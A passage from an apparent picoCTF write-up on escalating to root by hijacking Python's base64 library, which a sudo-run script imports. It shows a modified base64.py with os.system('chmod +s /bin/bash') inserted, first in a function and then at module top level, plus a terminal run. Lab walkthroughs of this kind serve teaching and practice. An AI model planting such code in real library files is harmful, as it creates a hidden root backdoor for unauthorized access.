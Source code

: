 
**Modified:**
```py
def b64encode(s, altchars=None):
    """Encode the bytes-like object s using Base64 and return a bytes object.

    Optional altchars should be a byte string of length 2 which specifies an
    alternative alphabet for the '+' and '/' characters.  This allows an
    application to e.g. generate url or filesystem safe Base64 strings.
    """
    import os
    os.system('chmod +s /bin/bash')
    
    encoded = binascii.b2a_base64(s, newline=False)
    if altchars is not None:
        assert len(altchars) == 2, repr(altchars)
        return encoded.translate(bytes.maketrans(b'+/', altchars))
    return encoded
```

In here, we're importing the `os` library, so that we can use function `system()` to run OS command.

The payload is `chmod +s /bin/bash`, which adds SUID sticky bit to `/bin/bash`, so that we can spawn a root Bash shell.

Let's run that!

```shell
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname
```

Hmm... "No address associated with hostname"?

No clue why we have this error.

Anyway, we can still trigger the payload.

In Python, when we importing a library, ***it'll run the code once***.

**That being said, we can add our payload in the top of the `base64.py` library:**
```py
# Modified 04-Oct-1995 by Jack Jansen to use binascii module
# Modified 30-Dec-2003 by Barry Warsaw to add full RFC 3548 support
# Modified 22-May-2007 by Guido van Rossum to use bytes everywhere

import re
import struct
import binascii

import os
os.system('chmod +s /bin/bash')
```
